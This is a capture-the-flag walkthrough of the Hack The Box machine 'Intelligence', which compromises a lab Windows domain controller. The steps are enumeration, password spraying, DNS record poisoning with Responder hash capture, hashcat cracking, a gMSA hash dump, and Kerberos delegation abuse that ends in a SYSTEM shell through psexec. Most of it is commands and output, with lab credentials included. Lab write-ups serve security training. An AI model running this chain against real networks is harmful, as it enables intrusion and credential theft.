

# Intelligence

First as always, we start with `nmap`

```
# Nmap 7.92 scan initiated Mon Aug 30 14:36:03 2021 as: nmap -vvv -p 53,80,88,135,139,389,445,464,593,636,5985,9389,49667,49692,49691,49701,49713,60451 -sCV -oA init 10.10.10.248
Nmap scan report for 10.10.10.248
Host is up, received syn-ack (0.045s latency).
Scanned at 2021-08-30 14:36:03 +07 for 97s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-title: Intelligence
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-08-30 14:34:47Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2021-08-30T14:36:17+00:00; +6h58m37s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
| SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
[snip]
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
| SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
[snip]
|_ssl-date: 2021-08-30T14:36:17+00:00; +6h58m37s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack Microsoft Windows RPC
49692/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49701/tcp open  msrpc         syn-ack Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack Microsoft Windows RPC
60451/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41407/tcp): CLEAN (Timeout)
|   Check 2 (port 4953/tcp): CLEAN (Timeout)
|   Check 3 (port 53348/udp): CLEAN (Timeout)
|   Check 4 (port 21343/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-08-30T14:35:38
|_  start_date: N/A
|_clock-skew: mean: 6h58m36s, deviation: 0s, median: 6h58m36s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 30 14:37:40 2021 -- 1 IP address (1 host up) scanned in 97.59 seconds
```

We have DNS, HTTP, kerberos, SMB, LDAP and WinRM. We also have a couple of domain names, `intelligence.htb` and `dc.intelligence.htb`, which we add to our `/etc/hosts`. With the above services and domain names, it's safe to say what we have here is a domain controller.

Cheking SMB for null authentication, we find that it's not allowed.

```sh
$ cme smb intelligence.htb -u "" -p "" --shares
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\: STATUS_ACCESS_DENIED
SMB         10.10.10.248    445    DC               [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```

Checking anonymous login

```sh
$ smbclient -L //intelligence.htb
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Enter WORKGROUP\j's password:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```

No share found.

Looking at the web server, we have a couple of PDF documents on the front page, so we download them and check their metadata.


```sh
$ exiftool *
======== 2020-01-01-upload.pdf
ExifTool Version Number         : 12.30
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 26 KiB
File Modification Date/Time     : 2021:08:30 15:21:29+07:00
File Access Date/Time           : 2021:08:30 15:22:44+07:00
File Inode Change Date/Time     : 2021:08:30 15:22:28+07:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee
======== 2020-12-15-upload.pdf
ExifTool Version Number         : 12.30
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 KiB
File Modification Date/Time     : 2021:08:30 15:21:39+07:00
File Access Date/Time           : 2021:08:30 15:21:39+07:00
File Inode Change Date/Time     : 2021:08:30 15:22:28+07:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams
```

With this, we have a couple of usernames and see a document naming format, meaning we can try fuzzing for more documents.

```sh
$ seq -f "%02g" 1 12 > months
$ seq -f "%02g" 1 31 > dates
$ seq 2020 2022 > years;
$ ffuf -u "http://intelligence.htb/documents/YEAR-MONTH-DATE-upload.pdf" -w years:YEAR -w months:MONTH -w dates:DATE;
```

This, however, gives us a lot of files so I wrote a simple script to download everything

```sh
#!/bin/bash

for YEAR in $(seq 2020 2021); do
  for MONTH in $(seq -f "%02g" 1 12); do
    for DATE in $(seq -f "%02g" 1 31); do
      wget "http://intelligence.htb/documents/$YEAR-$MONTH-$DATE-upload.pdf"
    done
  done
done
```

I then extract all the usernames

```sh
$ exiftool * | grep Creator | awk '{print $3}' | sort -u
```

With that, we should have a total of 30 usernames in a word list. Using `pdf2txt.py2` from `pdfminer` (install `pip install pdfminer`), we extract the text of all the PDF files.

```sh
$ ls | while read line; do echo "$line"; pdf2txt.py2 "$line"; done;
```

With this, we should find that the file `2020-06-04-upload.pdf` has the following contents

```
New Account Guide

Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876

After logging in please change your password as soon as possible.
```

This gives us a default password to try with out usernames, so let's do just that with `crackmapexec`.

```sh
$ cme smb intelligence.htb -u users -p NewIntelligenceCorpUser9876
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
[snip]
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

This gives us credentials for the user "Tiffany.Molina". We then try listing shares and log into SMB.

```sh
$ smbclient -L //intelligence.htb -U Tiffany.Molina
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Enter WORKGROUP\Tiffany.Molina's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	Users           Disk
SMB1 disabled -- no workgroup available
```

```sh
$ smbclient //intelligence.htb/IT -U Tiffany.Molina
smb: \> ls
  .                                   D        0  Mon Apr 19 07:50:55 2021
  ..                                  D        0  Mon Apr 19 07:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 07:50:55 2021

		3770367 blocks of size 4096. 1434247 blocks available

smb: \> get downdetector.ps1
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (5.9 KiloBytes/sec) (average 5.9 KiloBytes/sec)
```

```sh
$ smbclient //intelligence.htb/Users -U Tiffany.Molina
smb: \> cd Tiffany.Molina/Desktop
smb: \Tiffany.Molina\desktop\> ls
  .                                  DR        0  Mon Apr 19 07:51:46 2021
  ..                                 DR        0  Mon Apr 19 07:51:46 2021
  user.txt                           AR       34  Mon Aug 30 21:51:54 2021

		3770367 blocks of size 4096. 1433991 blocks available
```

With that, we should have the user flag and a Powershell script "downdetector.ps1".

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

The script seems to be checking server statuses by making requests to domains starting with "web" using someone's credentials, which we can guess is Ted Grave's since emails are being sent to him. We might be able to grab the credentials if we can somehow get the machine to make a request to our machine, possibly by spoofing an existing domain or adding a new domain to the list of registered domains. We don't have a means to do that right now so we make note of it for later.

Using `ldapdomaindump`, we can get some information on LDAP.

```sh
$ ldapdomaindump -u 'intelligence/htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' intelligence.htb

$ cat domain_computers.grep
cn	sAMAccountName	dNSHostName	operatingSystem	operatingSystemServicePack	operatingSystemVersion	lastLogon	userAccountControl	whenCreated	objectSid	description
svc_int	svc_int$	svc_int.intelligence.htb				01/01/01 00:00:00	WORKSTATION_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION	04/19/21 00:49:58	S-1-5-21-4210132550-3389855604-3437519686-1144
DC	DC$	dc.intelligence.htb	Windows Server 2019 Datacenter		10.0 (17763)	08/31/21 12:01:57	SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION	04/19/21 00:42:41	S-1-5-21-4210132550-3389855604-3437519686-1000%Z ❯ ~/ctf/htb/machines/intelligence/ldap
```

We see `TRUSTED_FOR_DELEGATION` is set, which is unusual. Looking it up, we see that the setting can allow for "Unconstrained Delegation", and looking up "unconstrained delegation exploit" we're presented with [this article](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) which points to the [Krbrelayx](https://github.com/dirkjanm/krbrelayx) tool set. Among the tools, we have `dnstool.py` which can add DNS records. Looking back at `downdetector.ps1`, we needed to somehow get the server to make a query to us to grab credentials, which can be done by using this tool to add our machine as a DNS record.

```sh
$ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a add -r webpwn.intelligence.htb -d ATK_IP 10.10.10.248
```

After adding our DNS record, we run Responder to listen for the request, which can take up to 5 minutes

```sh
$ sudo responder -I tun0 -A
[snip]
[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:4a1cc1bbd6186066:C8E4CC2F86DD3D512050A3C7BEAA34D6:01010000000000006E4140D77B9ED701F40CD03F6F1740C800000000020008004F0055003800370001001E00570049004E002D0054004200500050003200380052005000570041003800040014004F005500380037002E004C004F00430041004C0003003400570049004E002D00540042005000500032003800520050005700410038002E004F005500380037002E004C004F00430041004C00050014004F005500380037002E004C004F00430041004C0008003000300000000000000000000000002000009388FBA26C091DA620AAA4D5A946ACE5689EE2564456D97DF2B7402B1DFAEDA50A001000000000000000000000000000000000000900380048005400540050002F00770065006200700077006E002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

With the hash, we can crack it using `hashcat` (mode 5600).

```sh
$ hashcat -m 5600 hash path/to/rockyou.txt
[snip]
TED.GRAVES::intelligence:4a1cc1bbd6186066:c8e4cc2f86dd3d512050a3c7beaa34d6:01010000000000006e4140d77b9ed701f40cd03f6f1740c800000000020008004f0055003800370001001e00570049004e002d0054004200500050003200380052005000570041003800040014004f005500380037002e004c004f00430041004c0003003400570049004e002d00540042005000500032003800520050005700410038002e004f005500380037002e004c004f00430041004c00050014004f005500380037002e004c004f00430041004c0008003000300000000000000000000000002000009388fba26c091da620aaa4d5a946ace5689ee2564456d97df2b7402b1dfaeda50a001000000000000000000000000000000000000900380048005400540050002f00770065006200700077006e002e0069006e00740065006c006c006900670065006e00630065002e006800740062000000000000000000:Mr.Teddy
```

With these new credentials, I ran `bloodhound-python`

```sh
$ bloodhound-python -c all -u "Ted.Graves" -p "Mr.Teddy" -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -gc intelligence.htb
```

With the user "Ted.Graves" marked as owned, we run the query "Shortest Path from Own Principles" and find that Ted, being a member of "ITSupport", has "ReadGMSAPassword" over the user "SVC_INT", which has "AllowedToDelegate" over "dc.intelligence.htb".



Looking up [GMSA on hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#group-managed-service-accounts-gmsa), we directed to [this article](https://cube0x0.github.io/Relaying-for-gMSA/) which demonstrates NTLM relaying for GMSA passwords. Following the article, I tried running `ntlmrelayx.py` but got nothing.

Looking up "dump gmsa github", we get [gMSADumper](https://github.com/micahvandeusen/gMSADumper). I then cloned and ran the script.

```sh
$ ./gMSADumper.py -u Ted.Graves -p "Mr.Teddy" -l 10.10.10.248 -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::5e47bac787e5e1970cf9acdb5b316239
```

We have a hash but can't crack it because GMSA passwords are long and randomly generated. With `AllowedToDelegate`, the user `svc_int` has "delegation privilege" to the computer "DC.INTELLIGENCE.HTB". Looking around for "kerberos" and "delegate", with the query "kerberos delegate impacket", I found [this article](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html), which demonstrates that we can potentially get a silver ticket with this. I tried getting an ST (silver ticket) as Administrator, using the SPN "HOST" since [it' a common catch all for multiple SPNs](https://serverfault.com/a/527477).

```
$ getST.py -spn HOST/dc.intelligence.htb -hashes :5e47bac787e5e1970cf9acdb5b316239 -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

To fix the error `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`, simply stop the `ntpd` service if it's running and run `sudo ntpdate 10.10.10.248` to sync your machine's clock with the server's. (To reset the time to normal, just reboot your machine and the time should be back to normal if `ntpd` is enabled as a service.)

```sh
$ getST.py -spn HOST/dc.intelligence.htb -hashes :5e47bac787e5e1970cf9acdb5b316239 -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user svc_int or initial TGT not forwardable
```

We can't get an ST with this SPN so we need to find an SPN we can delegate with. Since we have a web server, I tried things like "HTTP" and "WWW", eventually finding that "WWW" works.

```sh
$ getST.py -spn WWW/dc.intelligence.htb -hashes :5e47bac787e5e1970cf9acdb5b316239 -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

This ticket, however, doesn't seem to work. That's because the username need to be `svc_int$`, note the `$` at the end, because this is a virtual service account.

```sh
$ getST.py -spn WWW/dc.intelligence.htb -hashes :5e47bac787e5e1970cf9acdb5b316239 -dc-ip 10.10.10.248 -impersonate Administrator 'intelligence.htb/svc_int$'
```

After regenerating the ticket with that username, we can get a shell as Administrator.

```sh
$ export KRB5CCNAME=Administrator.ccache
$ psexec.py -k -no-pass intelligence.htb/Administrator@dc.intelligence.htb
[snip]
C:\Windows\system32>whoami
nt authority\system
```

With that, we have a shell as `nt authority\system`.
